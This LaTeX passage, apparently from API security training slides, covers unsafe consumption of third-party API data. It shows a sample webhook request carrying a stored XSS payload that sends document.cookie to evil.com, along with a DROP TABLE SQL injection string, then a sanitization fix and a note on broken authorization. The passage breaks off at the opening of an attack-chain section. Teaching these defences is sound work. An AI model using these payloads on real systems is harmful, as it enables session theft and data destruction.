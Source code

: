 \documentclass[11pt]{article}
\begin{document}
\begin{httpbox}
POST /api/v1/webhooks/partner-crm HTTP/1.1
Content-Type: application/json

{ "customer_name": "<script>fetch('//evil.com/c?d='+document.cookie)</script>",
  "note": "'; DROP TABLE customers;--" }

# If this payload is stored and later rendered in an internal
# admin dashboard without sanitization -> stored XSS / SQLi
# even though the "attacker" never touched your API directly.
\end{httpbox}

\begin{itemize}
  \item \textbf{Fix:} treat all third-party API responses as untrusted input --- validate schema, sanitize before storage/rendering, enforce TLS certificate validation, and apply the same input-validation discipline used for direct user input.
\end{itemize}

\begin{notebox}
API1 (BOLA), API3 (Property-Level Auth), and API5 (BFLA) are all forms of \textbf{broken authorization} --- they are consistently the most common and most severe API vulnerabilities in real-world assessments, and should be the first thing tested in any API pentest engagement.
\end{notebox}

\newpage
\section{API Attack Analysis}

\subsection{Anatomy of a Real API Attack Chain}
\begin{itemize}
  \item Real-world API breaches rarely rely on a single vulnerability class --- attackers chain multiple weaknesses together.
  \item Typical chain observed in API pentests and public breach reports:
\end{itemize}
\end{document}
